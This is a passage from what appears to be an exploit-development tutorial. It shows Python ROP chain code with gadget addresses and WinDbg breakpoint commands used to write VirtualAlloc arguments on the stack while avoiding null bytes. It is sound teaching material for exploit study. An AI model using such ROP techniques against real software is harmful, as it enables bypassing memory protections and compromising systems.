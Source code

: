 
When we execute the update ROP chain, we can set a breakpoint on the gadget containing the POP EAX instruction. We have already used it once before, so we need to continue to the second time the breakpoint is triggered:
	bp 0x5053a0f5
	g
	g
	p
	p
	p
	p
	p
	dd esi - c L4


The negation trick works and we end up with 0x01 in EAX, which is then written to the stack.

Now we must move to flAllocationType, which must be set to 0x1000. We could try to reuse the trick of negation but we notice that two's complement to 0x1000 is 0xfffff000, which also contains null bytes:

Let's choose a large, arbitrary value like 0x80808080 that does not contain null-bytes. if we subtract this value from 0x1000, we get the value 0x7F7F8F80 which is also null free.
	? 1000 - 80808080
	? 80808080 + 7f7f8f80


Now we need to update our ROP chain to pop 0x80808080 into EAX, pop 0x7f7f8f80 into ECX, and then add them together.

rop = pack("<L", (0x5050118e)) # mov eax,esi ; pop esi ; retn
...
rop += pack("<L", (0x5051cbb6)) # mov dword [esi], eax ; ret
rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret
rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret
rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret
rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret
rop += pack("<L", (0x5053a0f5)) # pop eax ; ret 
rop += pack("<L", (0x80808080)) # first value to be added
rop += pack("<L", (0x505115a3)) # pop ecx ; ret
rop += pack("<L", (0x7f7f8f80)) # second value to be added
rop += pack("<L", (0x5051579a)) # add eax, ecx ; ret
rop += pack("<L", (0x5051cbb6)) # mov dword [esi], eax ; ret
rop += b"C" * (0x400 - 276 - 4 - len(rop))

Notice that we began by increasing ESI by four as usual to align to the next API argument, and we also reused the same write gadget at the end of the chain to update the flAllocationType value on the stack.

To view this in action, we set a breakpoint on the "ADD EAX, ECX" ROP gadget at address 0x5051579a. Since this gadget is used multiple times, we can create a conditional breakpoint to avoid breaking at it each time.

We know that EAX must contain the value 0x80808080 when EAX and ECX are added together. We'll use the .if statement in our breakpoint in order to break on the target address only when EAX is set to 0x80808080. Due to sign extension, we must perform a bitwise AND operation to obtain the correct result in the comparison.
	bp 0x5051579a ".if (@eax & 0x0`ffffffff) = 0x80808080 {} .else {gc}"
	g
	p
	p
	